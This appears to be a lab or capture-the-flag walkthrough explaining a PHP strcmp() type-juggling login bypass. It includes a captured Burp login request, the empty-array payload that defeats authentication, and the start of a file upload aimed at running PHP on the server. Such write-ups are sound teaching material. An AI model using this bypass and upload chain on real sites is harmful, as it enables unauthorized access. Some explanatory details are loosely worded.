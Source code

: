 **From the Walk-Through:**
- The `strcmp()` function is used for string comparison and returns 0 when the two inputted values are identical.
- If `strcmp()` is given an empty array to compare against the stored password, it will return `NULL`. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to 0.
- The correct way to write this would be with the `===` operator which checks both value and type.
- These are prominently known as "Type Juggling bugs" and a detailed video explanation on this can be found [here](https://youtu.be/idC5SAsKhlE?si=wfDIkaUGzk2VnUfH).

In PHP, variables can be easily converted into arrays if we add `[]` in front of them. For example:
```
$username = "Admin"
$username[] = "Admin"
```

In order to exploit this vulnerability, we will need to intercept the login request in BurpSuite.

## Burp

Capture the login POST:
```
POST /login/login.php HTTP/1.1
Host: 10.129.95.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.129.95.184
Connection: keep-alive
Referer: http://10.129.95.184/login/login.php
Cookie: PHPSESSID=3l6ho9a5isro6f2ci8on3l1g11
Upgrade-Insecure-Requests: 1

username=uname&password=pwd
```

Change the username and password variables to arrays and remove the values (so they are empty arrays): 
- Note: You may have to click "Forward" several times.
```
username[]=&password[]=
```

This converts the variables to arrays and after forwarding the request, strcmp() returns true and the login is successful. 
- Once logged in, we see a file upload functionality.

Upload a test file. Since you know the site runs PHP, upload this and open it:
```
echo "<?php phpinfo(); ?>" > test.php
```
